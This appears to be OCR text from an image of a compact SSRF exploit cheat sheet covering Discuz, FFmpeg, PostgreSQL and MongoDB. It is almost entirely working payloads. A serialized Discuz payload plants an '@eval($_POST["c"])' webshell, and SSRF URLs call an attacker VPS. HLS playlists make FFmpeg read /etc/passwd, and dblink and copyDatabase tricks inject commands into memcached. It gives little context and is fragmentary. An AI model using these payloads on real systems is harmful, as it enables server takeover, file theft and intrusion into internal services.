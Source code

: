 Output:

a:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";a:1:{s:7:"plugins";s:5:"/.*/e";}s:7:"replace";a:1:{s:7:"plugins";s:19:"@eval($_POST["c"]);";}}}s:13:"rewritestatus";i:1;}     //序列化数据
173     //字符串长度

example:

Open website

http://192.168.80.116/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://you-vps-ip/ssrf.php?.jpg[/img]&formhash=818c8f44

Backdoor website

http://192.168.80.116/forum.php?mod=ajax&inajax=yes&action=getthreadtypes

###########################################

FFmpeg

cat test.jpg

#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://example.org/header.m3u8|file:///etc/passwd
#EXT-X-ENDLIST

subfile:

#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://localhost/header.m3u8|subfile,,start,0,end,64,,:///etc/passwdconcat:http://localhost/header.m3u8|subfile,,start,64,end,128,,:///etc/passwdconcat:http://localhost/header.m3u8|subfile,,start,128,end,256,,:///etc/passwdconcat:http://localhost/header.m3u8|subfile,,start,256,end,512,,:///etc/passwd
#EXT-X-ENDLIST

###########################################

PostgreSQL

Exploit:

> SELECT dblink_send_query('host=127.0.0.1 dbname=quit user=\'\nstats\n\​' password=1 port=11211 sslmode=disable','select
version();');

###########################################

MongoDB

Exploit:

> db.copyDatabase("\1\2\3\4\5\6\7",'test','localhost:8000')
> nc -l 8000 | hexdump -C
> db.copyDatabase(“\nstats\nquit”,’test’,’localhost:11211’)

###########################################
